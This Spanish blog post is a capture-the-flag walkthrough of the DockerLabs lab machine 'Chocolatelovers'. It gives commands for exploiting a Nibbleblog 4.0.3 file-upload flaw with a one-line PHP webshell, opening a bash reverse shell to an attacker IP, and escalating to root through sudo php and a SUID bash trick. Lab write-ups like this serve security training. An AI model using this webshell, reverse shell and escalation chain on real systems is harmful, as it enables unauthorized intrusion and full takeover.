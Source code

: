 ```yaml
---
layout: post
title: "Chocolatelovers"
date: 2024-09-27
 17:08:23
category: dockerlabs
vm: dockerlabsfacil
---
```


<table class="log">
  <tr>
    <td rowspan="5"><img src="/notas/public/img/dockerlabs/dockerlabs.png" width=260></td>
    <td></td>
  </tr>
  <tr> <td><strong>Máquina:</strong> Chocolatelovers </td> </tr>
  <tr> <td><strong>SO:</strong> Linux</td> </tr>
  <tr> <td><strong>Nivel:</strong> <span class="easy">Facil</span></td> </tr>
  <tr> <td><strong><a href="https://dockerlabs.es" target="_blank"> DockerLabs</a></strong></td> </tr>
</table>

<br>

**1\.** Descubrimos los puertos abiertos en la maquina, solo tenemos el puerto 80.

`sudo nmap -p- --open -T5 --min-rate=5000 -n -Pn 172.17.0.2`

![img](/notas/public/img/dockerlabs/chocolatelovers/nmap.png){:.margin}

**2\.** Tenemos la web de apache por defecto, pero si revisamos el codigo fuente vemos comentarios de un directorio.

`http://172.17.0.2`

![img](/notas/public/img/dockerlabs/chocolatelovers/80.png){:.margin}
![img](/notas/public/img/dockerlabs/chocolatelovers/80code.png){:.margin}

**3\.** Ya en la ruta nibbleblog vemos que nos da una url del panel administrativo.

`http://172.17.0.2/nibbleblog/`

![img](/notas/public/img/dockerlabs/chocolatelovers/80nibbleblog.png){:.margin}

**4\.** Intento acceder con las credenciales por defecto admin:admin, y si accedimos al panel adminstrativo.

`http://172.17.0.2/nibbleblog/admin.php`

![img](/notas/public/img/dockerlabs/chocolatelovers/nibblepanel.png){:.margin}
![img](/notas/public/img/dockerlabs/chocolatelovers/nibblecontrol.png){:.margin}

**5\.** Si vamos a settings por debajo veremos la version de Nibbleblog que es la 4.0.3, si buscamos vulnerabilidades con searchsploit tenemos uno con la misma version.

`searchsploit nibbleblog`

![img](/notas/public/img/dockerlabs/chocolatelovers/nibbleversion.png){:.margin}
![img](/notas/public/img/dockerlabs/chocolatelovers/nibblesploit.png){:.margin}

**6\.** Revisamos el codigo de dicho exploit, la vulnerabilidad esta en la subida de imagenes donde podemos subir un fichero php, y lo mas importante nos da la ruta y el nombre con el que se almacena.

`searchsploit -x 38489`

![img](/notas/public/img/dockerlabs/chocolatelovers/nibblesploitcode.png){:.margin}

**7\.** Si no tenemos el plugins de imagen nos dirigimos a plugins e instalamos el plugin "My image".

![img](/notas/public/img/dockerlabs/chocolatelovers/nibbleplugin.png){:.margin}
![img](/notas/public/img/dockerlabs/chocolatelovers/nibbleimageinstall.png){:.margin}

**8\.** Ya instalado creamos un fichero php para subirlo y obtener una webshell, al subir nos da muchos errores pero no pasa nada porque el fichero ya se subio.

`nano cmd.php`

`<?php system($_GET["cmd"]);?>`

![img](/notas/public/img/dockerlabs/chocolatelovers/cmd.png){:.margin}
![img](/notas/public/img/dockerlabs/chocolatelovers/nibbleimage.png){:.margin}
![img](/notas/public/img/dockerlabs/chocolatelovers/nibbleimageerror.png){:.margin}

**9\.** Vamos a la ruta que visualizamos en el exploit, vemos que podemos ejecutar comandos. 

`http://172.17.0.2/nibbleblog/content/private/plugins/my_image/image.php?cmd=id`

![img](/notas/public/img/dockerlabs/chocolatelovers/webshell.png){:.margin}

**10\.** Nos ponemos en escucha, y me envio una reverse shell, asi obtenemos acceso a la maquina.

`nc -nlvp 4000`

`http://172.17.0.2/nibbleblog/content/private/plugins/my_image/image.php?cmd=bash -c "bash -i>%26 /dev/tcp/192.168.18.8/4000 0>%261"`

![img](/notas/public/img/dockerlabs/chocolatelovers/webshellok.png){:.margin}
![img](/notas/public/img/dockerlabs/chocolatelovers/ncok.png){:.margin}

**11\.** Reviso los permisos sudo del usuario y encontramos un binario que podemos ejecutar como el usuario chocolate, me apoyo de [gtfobins](https://gtfobins.github.io/gtfobins/php/#sudo) para migrar al usuario chocolate.

`sudo -l`

`sudo -u chocolate php -r "system('/bin/bash');"`

![img](/notas/public/img/dockerlabs/chocolatelovers/sudol.png){:.margin}
![img](/notas/public/img/dockerlabs/chocolatelovers/suchocolate.png){:.margin}

**12\.** Listamos procesos, vemos que root ejecuta un script, revisando los permisos del fichero vemos que nos pertenece y podemos modificarlo. 

`ps -aux`

`ls -l /opt/script.php`

![img](/notas/public/img/dockerlabs/chocolatelovers/ps.png){:.margin}

**13\.** Le damos permisos suid a la bash y listo.

`echo '<?php exec("chmod u+s /bin/bash"); ?>' > script.php`

`bash -p`

![img](/notas/public/img/dockerlabs/chocolatelovers/root.png){:.margin}

<br>

<a href="#">_Finalizado._</a>